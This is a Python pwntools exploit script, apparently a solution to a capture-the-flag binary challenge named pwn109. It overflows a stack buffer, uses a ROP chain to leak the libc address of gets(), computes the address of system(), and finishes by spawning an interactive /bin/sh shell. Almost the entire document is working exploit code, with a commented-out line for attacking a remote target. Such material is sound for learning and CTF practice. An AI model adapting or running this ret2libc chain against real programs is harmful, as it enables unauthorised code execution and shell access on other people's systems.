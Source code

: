 ```python
#!/usr/bin/env python3
#
# Exploit: Buffer overflow w/ ret2libc on a non PIE.
# Force the program to print the address of gets() in libc (which is random).
# Use that to calculate the address of system() in libc. Call system with
# '/bin/sh'

from pwn import *

context.update(arch="amd64", os="linux")

elf = ELF("./pwn109.pwn109")
# This should be exactly the libc used on the target system. I donwloaded
# libc.so.6 via the shell I gained with previous exploits.
libc = ELF('./libc.6.so')

process = process("./pwn109.pwn109")
# process = remote("xxx", 9009)


padding = b'A' * 40
# Smash the stack
payload = padding
# Load gets() address in rdi stored in the GOT
payload += p64(next(elf.search(asm('pop rdi ; ret;'))))
payload += p64(elf.got.gets)
# gets() will return to puts() in PLT
payload += p64(elf.plt.puts)
# puts() will return to main(), in order to allow a second iteration
payload += p64(elf.symbols.main)

process.recvline_containsS("Go ahead", timeout=3)
print("Injecting malicious input (1)")
process.sendline(payload)
# Receive the leaked address of gets()
text = process.recvline()
gets_address = u64(text.strip().ljust(8, b'\0'))

log.info(f'gets() address: {hex(gets_address)}')
libc.address = gets_address - libc.symbols.gets
log.info(f'Libc base adress: {hex(libc.address)}')

# Smash the stack
payload = padding
# Load the address of '/bin/sh' in libc into rdi
payload += p64(next(elf.search(asm('pop rdi ; ret;'))))
payload += p64(next(libc.search(b'/bin/sh')))
# return to system() in libc - we need an additional ret because of MOVAPS
payload += p64(next(elf.search(asm('ret;'))))
payload += p64(libc.symbols.system)

process.recvline_containsS("Go ahead", timeout=3)
print("Injecting malicious input (2)")
process.sendline(payload)
process.clean()

process.interactive()
```
